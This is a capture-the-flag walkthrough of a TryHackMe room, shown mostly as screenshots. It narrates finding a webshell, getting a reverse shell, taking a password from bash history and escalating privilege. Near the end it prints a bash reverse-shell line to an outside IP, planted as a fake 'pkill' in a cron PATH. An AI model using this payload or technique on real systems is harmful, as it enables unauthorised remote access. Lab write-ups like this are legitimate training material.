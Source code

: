```yaml
---
title: Hakcer Vs H4ck3r
description: hvh
---
```


Difficulty: Easy

![image.png](../../../assets/HackerVsHacker/image.png)

We need to get access to a machine that was previously compromised by a hacker.po

![image.png](../../../assets/HackerVsHacker/image%201.png)

Found 2 ports open

Since http has larger surface to attack compared to ssh. Lets do this.

![image.png](../../../assets/HackerVsHacker/image%202.png)

lets sneak what we got here

![image.png](../../../assets/HackerVsHacker/image%203.png)

we go something to upload 

![image.png](../../../assets/HackerVsHacker/image%204.png)

I tried to upload .php file

![image.png](../../../assets/HackerVsHacker/image%205.png)

when I view the source code this is what I got. Only pdf are accepted.

![image.png](../../../assets/HackerVsHacker/image%206.png)

There is a hidden directory called “cvs”.

This room is on hackerVshacker there could be reverse shell file. lets scan cvs directory.

![image.png](../../../assets/HackerVsHacker/image%207.png)

Woah 😮😮😮 

there is shell in cvs directory 

![image.png](../../../assets/HackerVsHacker/image%208.png)

I need to add file extension I guess

![image.png](../../../assets/HackerVsHacker/image%209.png)

boom! 🔥🔥🔥 there we go 

now I need parameter/code to run

![image.png](../../../assets/HackerVsHacker/image%2010.png)

there it is, the reverse shell file

![image.png](../../../assets/HackerVsHacker/image%2011.png)

![image.png](../../../assets/HackerVsHacker/image%2012.png)

Now lets upload reverse shell file 

![image.png](../../../assets/HackerVsHacker/image%2013.png)

simple http server to upload file 

now lets run the file but before that I have to run the command to listen

![image.png](../../../assets/HackerVsHacker/image%2014.png)

there we go. we got reverse shell.

![image.png](../../../assets/HackerVsHacker/image%2015.png)

I am not able to run command. 

Now I need to use the URL parameter to run the command.

![image.png](../../../assets/HackerVsHacker/image%2016.png)

![image.png](../../../assets/HackerVsHacker/image%2017.png)

woah I got user.txt

![image.png](../../../assets/HackerVsHacker/image%2018.png)

![image.png](../../../assets/HackerVsHacker/image%2019.png)

lets see the hidden file 

![image.png](../../../assets/HackerVsHacker/image%2020.png)

lets see .bach_history

![image.png](../../../assets/HackerVsHacker/image%2021.png)

it seems to be password for user lachlan which can be used in ssh.

![image.png](../../../assets/HackerVsHacker/image%2022.png)

Just after few second I got kicked out.

now lets see why this is happening and how can I make it work

![image.png](../../../assets/HackerVsHacker/image%2023.png)

This is kicking us out from ssh.

![image.png](../../../assets/HackerVsHacker/image%2024.png)

this terminate any active terminal session every minute

now how do I stop this?? 🤔🤔🤔

![image.png](../../../assets/HackerVsHacker/image%2025.png)

![image.png](../../../assets/HackerVsHacker/image%2026.png)

We get few second to stay there right??
why can’t I take that chance to create a reverse shell 

```bash
echo '#!/bin/bash
bash -i >& /dev/tcp/10.17.7.239/4444 0>&1' > /home/lachlan/bin/pkill

chmod +x /home/lachlan/bin/pkill

```

chmod +x /home/lachlan/bin/pkill

![image.png](../../../assets/HackerVsHacker/image%2027.png)

![image.png](../../../assets/HackerVsHacker/image%2028.png)

it is in now 

![image.png](../../../assets/HackerVsHacker/image%2029.png)

As soon as I run this command I got reverse shell

![image.png](../../../assets/HackerVsHacker/image%2030.png)

**Final Thought**

This was a cool trykackme room. I would recommend this room to a person who has done several CTF challenges which includes privilege escalation rooms.
